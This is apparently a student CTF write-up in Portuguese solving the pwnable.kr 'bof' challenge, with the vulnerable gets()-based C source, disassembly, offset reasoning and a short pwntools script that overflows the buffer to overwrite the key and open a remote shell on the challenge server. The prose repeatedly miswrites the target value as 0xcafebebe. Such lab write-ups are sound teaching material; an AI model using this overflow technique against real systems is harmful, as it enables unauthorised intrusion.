



# Challenge 2: Buffer Overflow

## Autores
- [Guilherme Locca Salomão](https://github.com/Caotichazard), 758569
- [João Victor Mendes Freire](https://github.com/joaovicmendes), 758943
- [Martin Heckmann](https://github.com/heckmartin), 758986

## Descrição
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000



## Solução
Inicialmente, o problema nos mostra o seguinte código fonte:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
O objetivo do código é fazer com que `key` seja igual a `0xcafebebe`, mas o programa foi compilado passando a chave `0xdeadbeef`.
O próprio código já nos aponta pro lugar onde uma vulnerabilidade pode ser encontrada, na função `gets()`. A função, pertencente à `libc`, tem a seguinte descrição no `man`.

```
The gets() function is equivalent to fgets() with an infinite size and a stream of stdin,
except that the newline character (if any) is not stored in the string. It is the caller's
responsibility to ensure that the input line, if any, is sufficiently short to fit in the string.
```

Essa descrição já deixa claro o que deve ser feito: a função não verifica se o buffer alocado tem espaço suficiente para armazenar o conteúdo que será lido da entrada padrão. Assim, é possível fazermos um buffer overflow para alterar os conteúdos da pilha do programa.

Ao utilizarmos o programa `objdump` pra descompilar o código, obtemos o seguinte código assembly para a função `main` e `func`:



```
0000068a <main>:
     68a: 55                           	pushl	%ebp
     68b: 89 e5                        	movl	%esp, %ebp
     68d: 83 e4 f0                     	andl	$-16, %esp
     690: 83 ec 10                     	subl	$16, %esp
     693: c7 04 24 ef be ad de         	movl	$3735928559, (%esp)
     69a: e8 8d ff ff ff               	calll	0x62c <func>
     69f: b8 00 00 00 00               	movl	$0, %eax
     6a4: c9                           	leave
     6a5: c3                           	retl
```

```
0000062c <func>:
     62c: 55                           	pushl	%ebp
     62d: 89 e5                        	movl	%esp, %ebp
     62f: 83 ec 48                     	subl	$72, %esp
     632: 65 a1 14 00 00 00            	movl	%gs:20, %eax
     638: 89 45 f4                     	movl	%eax, -12(%ebp)
     63b: 31 c0                        	xorl	%eax, %eax
     63d: c7 04 24 8c 07 00 00         	movl	$1932, (%esp)
     644: e8 fc ff ff ff               	calll	0x645 <func+0x19>
     649: 8d 45 d4                     	leal	-44(%ebp), %eax
     64c: 89 04 24                     	movl	%eax, (%esp)
     64f: e8 fc ff ff ff               	calll	0x650 <func+0x24>
     654: 81 7d 08 be ba fe ca         	cmpl	$3405691582, 8(%ebp)
     65b: 75 0e                        	jne	0x66b <func+0x3f>
     65d: c7 04 24 9b 07 00 00         	movl	$1947, (%esp)
     664: e8 fc ff ff ff               	calll	0x665 <func+0x39>
     669: eb 0c                        	jmp	0x677 <func+0x4b>
     66b: c7 04 24 a3 07 00 00         	movl	$1955, (%esp)
     672: e8 fc ff ff ff               	calll	0x673 <func+0x47>
     677: 8b 45 f4                     	movl	-12(%ebp), %eax
     67a: 65 33 05 14 00 00 00         	xorl	%gs:20, %eax
     681: 74 05                        	je	0x688 <func+0x5c>
     683: e8 fc ff ff ff               	calll	0x684 <func+0x58>
     688: c9                           	leave
     689: c3                           	retl
```

Em `func`, podemos observar que o programa compara `3405691582` (a versão decimal de `0xcafebebe`) com a posição de memória `ebp` + 8 bytes. Essa é a comparação que desejamos explorar, para fazer com que, após executar o `gets`, `ebp+8` tenha o valor `0xcafebebe`. Um pouco antes, no `call` que faz a chamada para `gets`, é possível ver que ele copia o conteúdo que retorna (`eax`) para `-44(%ebp)` (ou seja, esta 44 bytes abaixo do ponteiro base). Isso indica que é nessa posição que o buffer está alocado. Logo, devemos começar a preencher a partir dessa região com dados aleatórios, e depois colocaremos `0xcafebebe` logo após `ebp` para que a comparação seja verdadeira.

O seguinte script Python usa a biblioteca pwn para abrir uma conexão com o servidor e enviar a linha que executa o exploit.

```python
import pwn

input_text = 'A'*52 # para preenchermos o espaço do buffer até chegar em ebp
input_text += '\xbe\xba\xfe\xca' # o valor que será armazenado em key

conn = pwn.remote('pwnable.kr', 9000) # conexão com o servidor que está executando o programa

conn.sendline(input_text)
conn.interactive()
````

Com esse código, conseguimos um shell interativo, e basta realizarmos um `cat flag` que obtemos `daddy, I just pwned a buFFer :)`.


